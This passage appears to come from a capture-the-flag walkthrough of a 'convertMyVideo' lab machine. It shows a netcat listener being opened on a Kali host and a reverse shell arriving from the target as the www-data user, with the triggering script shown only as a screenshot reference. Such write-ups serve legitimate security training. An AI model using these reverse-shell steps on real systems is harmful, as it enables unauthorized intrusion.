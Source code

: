    ![chmod_777](./.images/chmod_777.png)

   Normally the `chmod` command does not return anything and same is the case over here. 

7. Start a listener on our local machine

   ```bash
   ┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
   └─$ nc -nvlp 4444
   listening on [any] 4444 ...
   
   ```

8. Send the command to run the script and wait for a reverse shell connection

   ![rev_shell_start](./.images/rev_shell_start.png)

   ```bash
   ┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
   └─$ nc -nvlp 4444                                                                                                 1 ⨯
   listening on [any] 4444 ...
   connect to [10.8.91.135] from (UNKNOWN) [10.10.234.149] 56850
   sh: 0: can't access tty; job control turned off
   $ whoami
   www-data
   $ hostname
   dmv
   ```
